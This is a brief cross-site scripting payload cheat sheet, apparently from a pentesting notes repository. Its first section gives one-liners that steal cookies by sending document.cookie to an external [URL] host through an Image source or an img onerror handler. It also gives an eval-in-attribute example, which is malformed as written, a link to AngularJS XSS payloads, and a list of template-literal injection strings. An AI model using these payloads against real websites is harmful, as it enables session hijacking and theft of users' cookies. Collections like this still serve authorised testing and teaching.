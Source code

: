 # Steal Cookies
## General One-Liner
```javascript
<script>var i=new Image;i.src="[URL]/?"+document.cookie;</script>
```
**Example usage of above:**
```javascript
onmouseover=eval(var i=new Image;i.src="[URL]/?"+document.cookie;)
```
## Using ``<img>`` Tag
```javascript
<img src=x onerror="this.src='[URL]/?'+document.cookie;this.removeAttribute('onerror');"/>
```


# AngularJS
[PayloadsAllTheThings - XSS in AngularJS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)

# XSS Template Literal Payloads
```javascript
alert(1)
${alert(1)}
alert(1);
${alert(1)};
`alert(1)`
`${alert(1)}`
`${alert(1)}`;
alert(1);
${alert(1)}/*
```

